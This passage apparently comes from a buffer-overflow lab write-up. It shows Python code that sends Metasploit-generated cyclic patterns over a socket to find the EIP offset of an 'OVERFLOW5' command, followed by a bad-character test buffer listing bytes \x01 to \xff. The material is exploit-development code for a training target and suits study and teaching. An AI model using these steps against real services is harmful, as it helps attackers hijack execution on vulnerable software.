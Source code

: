 ```
    except:
        print("no connection")
        print("Last string size sent was " + str(len(string)))
        length_value = len(string) + 500
        break

# Create and send pattern to find offset
stream = os.popen('/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l ' + str(length_value))
pattern = stream.read()

print("created pattern, sending it")
input("press enter when service is restarted")

offsock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
offsock.connect((ip, port))
sendbuff = cmd + pattern + "\r\n"
offsock.send(sendbuff.encode())

# Input value from user and find offset
eip_value = input("EIP: ")
stream = os.popen('/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l ' + str(length_value) + " -q " + eip_value)
offset_location = stream.read().strip('\n')
print(offset_location)
```
### Bad characters
As the exploit.py down below but with these values.
```
# sendbuff values
cmd = "OVERFLOW5 "
offset = 314
overflow = "A" * offset
eip_val = "CCCC"
nops = ""
payload = (
  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
  )
post = ""
linebreak = ""
```
